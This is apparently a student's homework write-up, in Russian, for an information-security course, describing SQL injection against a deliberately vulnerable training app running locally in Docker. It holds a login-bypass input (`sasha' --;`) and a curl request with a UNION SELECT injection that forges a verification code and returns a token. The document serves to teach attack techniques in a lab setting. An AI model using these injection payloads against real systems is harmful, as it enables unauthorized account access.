



# Специалист по информационной безопасности: расширенный курс
## Модуль 4. Современная разработка ПО
### Желобанов Егор SIB-48

# Домашнее задание к занятию «4.6. SQL и транзакции»

Подготовил файлы для развертывания системы:

* [docker-compose.yml](assets/docker-compose.yml)
* [docker-entrypoint-initdb.d/init.sql](assets/docker-entrypoint-initdb.d/init.sql)

И расположил их в каталоге `Work/SQL` в виртуальной машине Kali в соответствии с описанием:


### Задание 1. «Логин и пароль»

Развернул контейнер, и в браузере виртуальной машины перешел по адресу `http://localhost:8888/`, и увидел окно авторизации системы:



Зная, что в системе есть логин `sasha`, вводим логин `sasha' --;` и любой пароль, я ввел `123123`:


И попал на следующее окно:



### Задание 2. «Код подтверждения»*

Следуя подсказке, составил запрос на второго пользователя Мария, который указан у нас в файле [init.sql](assets/docker-entrypoint-initdb.d/init.sql),
подставив логин `masha` и код подтверждения `1234`, получился вот такой запрос:

```bash
curl -v "http://localhost:8888/api/auth/verification" -H 'Content-Type:application/json' -d "{\"login\":\"masha' union select null, 'masha', '1234', null, null -- \", \"code\":\"1234\"}"
```

В результате выполнения этого запроса, был получен положительный ответ от сервера:



Полученный токен в результате выполнения этого задания:

`{"token":"a184bbdd609c59dc91e0bd59c49bca04dbad035aba8ba85e06a6097c3fe648d5e2194f7abf84b3b50871325f0c3040deb6faa7d3b4c67c60b0ad48caa8331c0e11d771e4f1d330266ecebc737dbd42742615c2da6bae2984ef3b9d5fcef8eec8f431a1c3e6032639e3257a4ef707eb2a5596d7d231215ab3198fa1d2bc923308"}`
